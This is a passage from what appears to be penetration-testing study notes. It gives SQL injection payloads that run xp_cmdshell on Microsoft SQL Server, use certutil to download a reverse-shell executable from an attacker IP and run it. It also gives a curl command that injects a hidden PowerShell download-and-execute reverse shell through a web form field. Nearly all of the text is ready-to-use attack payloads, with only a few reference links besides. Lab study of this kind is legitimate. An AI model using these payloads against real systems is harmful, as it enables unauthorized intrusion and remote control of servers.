 4. **Execute `xp_cmdshell`.**
    ```url
    1'; EXEC xp_cmdshell 'certutil -urcache -f http://192.168.119.xxx:8000/rev.exe rev.exe';--+ Check server gets hit
    ```
    ```url
    1'; EXEC xp_cmdshell '.\rev.exe';--+ got shell ? 
    ```
References:
- [A Not-So-Blind RCE with SQL Injection](https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e)
- [Pentestmonkey SQLi cheat-sheet](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [HackTricks SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection)
### Automating SQL Injection
TODO: SQLMap

## Escaping WAF filters

```sh
curl -X POST --data-urlencode "action=192.168.45.229 && powershell.exe -nop -w hidden -c \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.229/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.229 -Port 53\"" http://10.11.1.31/_vti_pingit/pingit.py
```
